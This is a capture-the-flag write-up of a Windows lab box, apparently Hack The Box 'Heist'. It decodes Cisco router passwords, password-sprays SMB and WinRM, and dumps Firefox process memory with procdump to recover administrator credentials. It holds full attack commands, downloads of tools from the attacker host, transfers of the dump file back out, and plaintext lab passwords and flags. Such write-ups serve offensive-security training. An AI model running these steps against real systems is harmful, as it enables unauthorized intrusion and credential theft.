<text x="809.0" y="537.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FAEEDA">pass2</text>
<line x1="809.0" y1="552.0" x2="809.0" y2="560.0" stroke="#555553" stroke-width="0.5"/>
<rect x="769.0" y="560.0" width="80" height="30" rx="6" fill="#639922" stroke="#97C459" stroke-width="0.5"/>
<text x="809.0" y="575.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#EAF3DE">pass3</text>
<a href="#password-spraying" target="_top">
<a href="#password-spraying" target="_top">
<ellipse cx="809.0" cy="628.0" rx="42" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="809.0" y="628.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">spraying</text>
</a>
</a>
<rect x="769.0" y="666.0" width="80" height="30" rx="6" fill="#D4537E" stroke="#ED93B1" stroke-width="0.5"/>
<text x="809.0" y="681.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FBEAF0">WINRM1</text>
<line x1="996.0" y1="476.0" x2="996.0" y2="496.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<line x1="996.0" y1="530.0" x2="996.0" y2="550.0" stroke="#555553" stroke-width="1" marker-end="url(#ar)"/>
<rect x="956.0" y="446.0" width="80" height="30" rx="6" fill="#D4537E" stroke="#ED93B1" stroke-width="0.5"/>
<text x="996.0" y="461.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FBEAF0">WINRM1</text>
<a href="#guest-login" target="_top">
<a href="#guest-login" target="_top">
<ellipse cx="996.0" cy="514.0" rx="32" ry="16" fill="#7F77DD" stroke="#AFA9EC" stroke-width="0.5"/>
<text x="996.0" y="514.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="11" font-weight="500" fill="#EEEDFE">login</text>
</a>
</a>
<rect x="956.0" y="552.0" width="80" height="30" rx="6" fill="#E24B4A" stroke="#F09595" stroke-width="0.5"/>
<text x="996.0" y="567.0" text-anchor="middle" dominant-baseline="central" font-family="Arial, sans-serif" font-size="12" font-weight="500" fill="#FCEBEB">user1</text>
</svg>

---
---
tags:
  - windows
  - NotAssumedBreach
  - OSCPpath
  - processdump
---
## Intro


[[windows]] [[processdump]] [[NotAssumedBreach]] [[OSCPpath]]
Tags: #windows #NotAssumedBreach  #processdump #OSCPpath 
Tools used:
- smbclient
- rcpclient
- nxc
- procdump

-----
# Reconnaissance

```shell
echo '10.129.96.157 heist.htb' | sudo tee -a /etc/hosts
```


## Identify open TCP ports fast
```shell
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n  heist.htb
```

```shell
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-13 19:15 UTC
Nmap scan report for heist.htb (10.129.96.157)
Host is up (0.076s latency).
Not shown: 65530 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.63 seconds
```
According to these open ports, like port 88 for example its clear that the target is a DC

### Scan specific open TCP ports
```shell
sudo nmap -p80,135,445,5985,49669 -A heist.htb
```

```shell
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-13 19:16 UTC
Nmap scan report for heist.htb (10.129.96.157)
Host is up (0.048s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-13T19:17:45
|_  start_date: N/A
|_clock-skew: -12s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   47.26 ms 10.10.14.1
2   48.64 ms heist.htb (10.129.96.157)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.13 seconds
```


# Enumeration

## RPC

### Anonymous
```bash
rpcclient -U "" -N heist.htb
```
also via oneliner
```shell
rpcclient -U "" -N target -c "enumdomusers"
```
was not successful


## SMB

### Anonymous

#### General info
```shell
nxc smb heist.htb
```

```shell
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
```

#### Shares
```shell
nxc smb heist.htb  -u '' -p '' --shares
```
was not successful

### Guest

#### Shares
```shell
nxc smb heist.htb -u 'guest' -p '' --shares
```
was not successful

## WebApp

### Guest login

cant login with default creds with admin admin 
i can login as guest instead, and then i am redirected to `/issues.php`, then opened attachment

#### File found
it appears to be a cisco router configuration
```shell
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```
#### creds obtained
```
rout3r
0242114B0E143F015F5D1E161713
```

```
admin
02375012182C1A1D751618034F36415408
```
i also saw this
```
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
```
indicates that the router is using a Type 5 “enable secret,” which is an MD5-based hash

also found this user 
```
Hazard
```
and on the webpage this user tells the admin to create an account for him on the windows server
## Cracking MD5 hash

```shell
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```
cracked successfully
```shell
$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent              
                                                          
Session..........: hashcat
Status...........: Cracked
```
but now what? well then i used this cisco password cracker
https://www.ifm.net.nz/cookbooks/passwordcracker.html

### Decrypting cisco configuration hashes

#### creds obtained
```
0242114B0E143F015F5D1E161713 -> $uperP@ssword
02375012182C1A1D751618034F36415408 -> Q4)sJu\Y8qz*A3?d
```

## Password spraying

now lets create these lists of passwords and users:
```
rout3r
admin
hazard
```

```
$uperP@ssword
Q4)sJu\Y8qz*A3?d
stealth1agent
```

```shell
nxc smb heist.htb -u users.txt -p passwords.txt
```

```shell
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
```
success for these creds
```
hazard
stealth1agent
```

## Checking creds validity against services

lets now try to check to which service's we can connect with those creds, using my automated nxc script
https://github.com/ch3ckkm8/auto_netexec
```shell
./auto_netexec_bulk_creds_checker.sh heist.htb 'hazard' 'stealth1agent'
```

```

[*] Checking if winrm port 5985 is open on heist.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM                    10.129.96.157   5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
WINRM                    10.129.96.157   5985   SUPPORTDESK      [-] SupportDesk\hazard:stealth1agent

[*] Checking if smb port 445 is open on heist.htb...
[+] Port 445 open — checking smb with netexec
SMB                      10.129.96.157   445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB                      10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 

[*] Checking if ldap port 389 is open on heist.htb...
[-] Skipping ldap — port 389 is closed

[*] Checking if rdp port 3389 is open on heist.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on heist.htb...
[+] Port 135 open — checking wmi with netexec
RPC                      10.129.96.157   135    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
RPC                      10.129.96.157   135    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 

[*] Checking if nfs port 2049 is open on heist.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on heist.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on heist.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on heist.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on heist.htb...
[-] Skipping mssql — port 1433 is closed
```
this user can connect towards `SMB, RPC`

## SMB enum as hazard

```shell
nxc smb heist.htb -u hazard -p stealth1agent --shares
```

```shell
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.129.96.157   445    SUPPORTDESK      [*] Enumerated shares
SMB         10.129.96.157   445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.129.96.157   445    SUPPORTDESK      -----           -----------     ------
SMB         10.129.96.157   445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.129.96.157   445    SUPPORTDESK      C$                              Default share
SMB         10.129.96.157   445    SUPPORTDESK      IPC$            READ            Remote IPC
```

### Downloading SMB shares

```shell
nxc smb heist.htb -u hazard -p stealth1agent --spider C$
nxc smb heist.htb -u hazard -p stealth1agent --spider ADMIN$
nxc smb heist.htb -u hazard -p stealth1agent --spider IPC$
```

```shell
nxc smb heist.htb -u 'hazard' -p 'stealth1agent' -M spider_plus -o DOWNLOAD_FLAG=True

nxc smb heist.htb -u 'hazard' -p 'stealth1agent' -M spider_plus
```

```shell
smbclient -L heist.htb -U hazard%stealth1agent
```

```shell
smbclient //heist.htb/IPC$ -U hazard%stealth1agent
```

```shell
└─$ smbclient //heist.htb/IPC$ -U hazard%'stealth1agent'                                                                   
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*

```

```shell
nxc smb heist.htb -u 'hazard' -p 'stealth1agent' --spider Share_name --regex .
```

## RPC enum as user hazard

```shell
rpcclient -U 'hazard%stealth1agent' heist.htb
```

```shell
└─$ rpcclient -U 'hazard%stealth1agent' heist.htb                                                                          
rpcclient $> enumdomgroups
result was NT_STATUS_CONNECTION_DISCONNECTED
rpcclient $> enumdomusers
result was NT_STATUS_CONNECTION_DISCONNECTED
```
cant run commands

-----
# Foothold


## Finding valid users
### RID brute force

```shell
nxc smb heist.htb -u 'hazard' -p 'stealth1agent' --rid-brute
```

```
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.129.96.157   445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.129.96.157   445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```
now lets update our list of users with the ones we found here and try all combinations again with the password we have gathered
```shell
nxc winrm heist.htb -u users.txt -p passwords.txt
```

```
WINRM       10.129.96.157   5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.96.157   5985   SUPPORTDESK      [-] SupportDesk\guest:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.96.157   5985   SUPPORTDESK      [-] SupportDesk\chase:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.96.157   5985   SUPPORTDESK      [-] SupportDesk\jason:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.96.157   5985   SUPPORTDESK      [-] SupportDesk\support:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.96.157   5985   SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.96.157   5985   SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.96.157   5985   SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.96.157   5985   SUPPORTDESK      [-] SupportDesk\guest:Q4)sJu\Y8qz*A3?d
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.96.157   5985   SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```
success! we can login as chase via winrm
```
chase
Q4)sJu\Y8qz*A3?d
```

## WinRM as user (chase)

logged in and grabbed user flag
```shell
evil-winrm -i heist.htb -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'
```

```powershell
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> cd ..
*Evil-WinRM* PS C:\Users\Chase> cd Desktop
*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt
654a9ad10864cf1c55aed2be1b24d228
*Evil-WinRM* PS C:\Users\Chase\Desktop> whoami
supportdesk\chase
```

---
# Privesc

## Privileges

```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```


## winpeas

```shell
python3 -m http.server 8001
```

```shell
powershell wget http://10.10.15.0:8001/winpeas.bat -o winpeas.bat
```

```shell
.\winpeas.bat
```

in winpeas, this stood out to me
```shell
\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default\places.sqlite
```

## Filesystem enum

found a todo file
```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

then i also remembered, to check the webapps directory, and started with `/issues.php`
```powershell
*Evil-WinRM* PS C:\inetpub\wwwroot> type issues.php
```
inside the php file i found this
```php
<!DOCTYPE html>
<?php
session_start();
if( isset($_SESSION['admin']) || isset($_SESSION['guest']) ) {
        if( $_SESSION['admin'] === "valid" || $_SESSION['guest'] === "valid" ) {

?>
<html lang="en" >

```
then inspected `login.php`
```php
<?php
session_start();
if( isset($_REQUEST['login']) && !empty($_REQUEST['login_username']) && !empty($_REQUEST['login_password'])) {
        if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') {
                $_SESSION['admin'] = "valid";
                header('Location: issues.php');
        }
        else
                header('Location: errorpage.php');
}
else if( isset($_GET['guest']) ) {
        if( $_GET['guest'] === 'true' ) {
                $_SESSION['guest'] = "valid";
                header('Location: issues.php');
        }
}


?>
```
thats some usefull info!

### Dump processes

```
ps
```
from the processes shown, i found firefox running and it stood out to me
```powershell
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
1495      58    23684      78256              4308   1 explorer
1071      70   147164     223348       3.38   6352   1 firefox
 347      19    10220      38732       0.05   6460   1 firefox
 401      33    31160      88552       0.41   6584   1 firefox
 378      28    21788      58504       0.20   6828   1 firefox
 355      25    16440      38980       0.05   7112   1 firefox
```

lets use procdump, upload it directly via evil-winrm
```powershell
upload '/home/ch3ckm8/Desktop/procdump64.exe'
```
or manually


```powershell
python3 -m http.server 8001
```

```powershell
powershell wget http://10.10.15.0:8001/procdump64.exe -o procdump64.exe
```
but before using it, lets view the pids of the firefox processes
```powershell
ps | findstr firefox
```
the pid is the 3rd column from the right
```powershell
1075      70   147484     223852       3.38   6352   1 firefox
347      19    10220      38732       0.05   6460   1 firefox
401      33    31172      88920       0.41   6584   1 firefox
378      28    21816      58532       0.20   6828   1 firefox
355      25    16440      38980       0.05   7112   1 firefox
```
now run for one of those pids:
```powershell
.\procdump64.exe -accepteula -ma 6460
```

```powershell
ProcDump v11.1 - Sysinternals process dump utility                            
Copyright (C) 2009-2025 Mark Russinovich and Andrew Richards                  
Sysinternals - www.sysinternals.com                                                                                                                         
[02:07:46]Dump 1 info: Available space: 3748245504                            
[02:07:46]Dump 1 initiated: C:\Users\Chase\firefox.exe_260314_020746.dmp      
[02:07:46]Dump 1 writing: Estimated dump file size is 288 MB.                 
[02:07:48]Dump 1 complete: 288 MB written in 1.6 seconds                      
[02:07:48]Dump count reached.       
```

download the `.dmp` file directly from winrm
```powershell
download 'C:\Users\Chase\firefox.exe_260314_020746.dmp'
```
or transfer from windows target towards attacker:
```bash
pip install uploadserver --break-system-packages
```

attacker
```bash
python3 -m uploadserver 8001
```
target
```powershell
iwr -Uri http://10.10.15.0:8001/upload -Method Post -InFile firefox.exe_260314_020746.dmp
```
or
```powershell
impacket-smbserver share . -smb2support
```

```powershell
copy 'C:\Users\Chase\firefox.exe_260314_020746.dmp' \\10.10.15.0\share\
```

### Inspecting the DMP file

lets search for strings with keyword `admin`
```powershell
strings firefox.exe_230623_015925.dmp | grep admin
```

```powershell
└─$ strings firefox.exe_260314_020746.dmp | grep login_password                                                                                                                                                                                                                                                             
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
#### creds obtained
```
administrator
4dD!5}x/re8]FBuZ
```

### WinRM as administrator

```powershell
evil-winrm -i heist.htb -u 'administrator' -p '4dD!5}x/re8]FBuZ'
```

in cmd
```powershell
echo User: %USERNAME% && echo Hostname: %COMPUTERNAME% && echo Whoami: && whoami && ipconfig /all && echo Root.txt Content: && type "C:\Users\Administrator\Desktop\root.txt"
```
or in powershell (comma separated)
```powershell
echo "User: $env:USERNAME"; echo "Hostname: $env:COMPUTERNAME"; whoami; ipconfig /all; type "C:\Users\Administrator\Desktop\root.txt"
```

```powershell
User: Administrator
Hostname: SUPPORTDESK
supportdesk\administrator

Windows IP Configuration

   Host Name . . . . . . . . . . . . : SupportDesk
   Primary Dns Suffix  . . . . . . . :
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : htb

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-94-C1-59
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::1cf(Preferred)
   Lease Obtained. . . . . . . . . . : Saturday, March 14, 2026 12:40:16 AM
   Lease Expires . . . . . . . . . . : Saturday, March 14, 2026 3:10:16 AM
   IPv6 Address. . . . . . . . . . . : dead:beef::a964:85d2:1752:11f5(Preferred)
   Link-local IPv6 Address . . . . . : fe80::a964:85d2:1752:11f5%15(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.129.96.157(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Saturday, March 14, 2026 12:40:17 AM
   Lease Expires . . . . . . . . . . : Saturday, March 14, 2026 3:10:17 AM
   Default Gateway . . . . . . . . . : fe80::250:56ff:fe94:9b51%15
                                       10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 268456022
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-31-46-19-6F-00-50-56-94-C1-59
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled
   Connection-specific DNS Suffix Search List :
                                       htb
e01988779ad34fc43519dc971b3a9b6b
```

---
# Summary

**Reconnaissance**
1. **Nmap scan** → open ports: `80` (IIS/PHP web), `135` (RPC), `445` (SMB), `5985` (WinRM)
2. **Guest login** on port `80` webapp → exposed Cisco router config
3. **Cracked** MD5 + **decoded** Type 7 passwords → `stealth1agent`, `$uperP@ssword`, `Q4)sJu\Y8qz*A3?d`
4. **Password spray** via SMB → `hazard:stealth1agent` valid
5. **RID brute force** as hazard → discovered `Chase`, `Jason`, `support`

**Foothold**
6. **Password spray** via WinRM → `chase:Q4)sJu\Y8qz*A3?d` valid → user flag

**Privesc**
7. **Process enum** as Chase → Firefox running as Administrator (session 1)
8. **Procdump** Firefox PID → memory dump contains plaintext creds in URL args
9. **WinRM** as Administrator → root flag

| #    | inputs                                    | action             | results                      |
| ---- | ----------------------------------------- | ------------------ | ---------------------------- |
| 1    | target                                    | nmap               | port 80, port 135, port 445  |
| 2    | port 80                                   | login              | guest                        |
| 3    | guest                                     | found              | file1, user1                 |
| 4    | file1                                     | read               | user2, user3, hashes, MD5    |
| 5    | MD5                                       | crack              | pass1                        |
| 6    | pass1, hashes                             | decrypt            | pass1, pass2                 |
| 7    | pass1, pass2, pass3, user1, user2, user3  | rid-brute-force    | valid_domain_users1          |
| 8    | valid_domain_users1, pass1, pass2, pass3  | spraying           | valid_creds1                 |
| 9    | valid_creds1                              | creds_vs_services  | SMB1, RPC1                   |
| 10   | SMB1                                      | rid-brute-force    | valid_domain_users2          |
| 11   | valid_domain_users2, pass1, pass2, pass3  | spraying           | WINRM1                       |



-----
# Sidenotes

The highlights of this one were the process enumeration and the assumption that administrator runs some processes, along with the process dump in order to find admin creds


